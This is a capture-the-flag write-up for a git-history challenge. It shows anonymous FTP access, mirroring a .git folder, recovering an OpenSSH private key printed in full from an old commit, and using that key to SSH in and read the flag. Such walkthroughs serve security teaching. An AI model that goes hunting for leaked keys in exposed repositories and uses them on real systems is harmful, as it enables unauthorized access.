 ## Task :
You are a time traveler who stumbled upon an ancient Git repository containing valuable data from a long-gone era. However, the repository seems to have some hidden secrets and potential vulnerabilities in its history. Charlie is your friend.

`143.110.189.89`

## Points : 200

## Solution:

The challenge gives us an ip address, a domain and port.
Running a quick nmap scan on the ip reveal it has a ftp server running on it.
```sh
[ssk@arch kic]$ nmap -F 143.110.180.89
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-30 16:42 IST
Nmap scan report for 143.110.180.89
Host is up (@.14s latency).
Not shown: 97 filtered tcp ports (no-response)
PORT    STATE   SERVICE
21/tcp  open    ftp
80/tcp  closed  http
443/tcp closed  https

Nmap done: 1 IP address (1 host up) scanned in 5.65 seconds
```

We can anonymously login into the ftp server using `anonymous` as the username and password.
The server has a `login.html` file and a `.git` folder. I cloned the complete server to further examine the files.
```sh
[ssk@arch kic]$ ftp 143.110.180.89
Connected to 143.110.180.89.
220 (vsFTPd 3.0.5)
Name (143.110.180.89:ssk): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x  1    1000   1000    4096 Jul 25 10:31 .
dr-xr-xr-x  1    1000   1000    4096 Jul 25 10:31 ..
drwxrwxr-x  8    0      0       4096 Apr 09 18:58 .git
-rw-rw-r--  1    0      0       514  Apr 09 18:58 login.html
226 Directory send OK.
ftp> quit
221 Goodbye.
[ssk@arch kic]$ wget -r --no-passive --no-parent --user=anonymous --password=anonymous ftp://143.110.180.89
```
Using git status allows us to see that there are two older commits also. On switching to the oldest commit, the `index.html` file has a OpenSSH private key inside it.

Output of `git log`:
```
commit 00231aa51594c4d44631ce9237255fe779afa72c (HEAD -> main, origin/main, origin/HEAD)
Author: 4dity4k <k2000aditya@yahoo.com>
Date:   Mon Apr 10 00:25:47 2023 +0530

    Smart cookie

commit b5488e6d7b3e27949d825292fa992562333c1de9
Author: 4dity4k <k2000aditya@yahoo.com>
Date:   Sun Apr 9 23:43:58 2023 +0530

    Latest and fresh

commit 5a496dbebbce1585698634e5348703b74e7ac781
Author: 4dity4k <k2000aditya@yahoo.com>
Date:   Sun Apr 9 23:20:43 2023 +0530

    My first web application
```

```sh
[ssk@arch back]$ git checkout 5a496dbebbce1585698634e5348703b74e7ac781
Note: switching to '5a496dbebbce1585698634e5348703b74e7ac781'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at 5a496db My first web application
[ssk@arch back]$ cat login.html 
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Login</title>
</head>
<body>
    <h1>Login</h1>
    <form method="POST">
        <label for="username">Username:</label>
        <input type="text" name="username" id="username" required>
        <br><br>
        <label for="password">Password:</label>
        <input type="password" name="password" id="password" required>
        <br><br>
        <button type="submit">Login</button>
    </form>
</body>
</html>
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----```
We can use extract the private key and use it to ssh into the server containing the flag.
```sh
[ssk@arch back]$ sudo ssh charlie@0.cloud.chals.io -p 31080 -i private_key
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.4.0-155-generic x86_64)

* Documentation:    https://help.ubuntu.com
* Management:       https://landscape.canonical.com
* Support:          https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ ls
user. txt
$ cat user.txt
KPMG_CTF{324b7e52953f62f1624fb64a2e8202e4}
$ exit
Connection to 8.cloud.chals.io closed.
```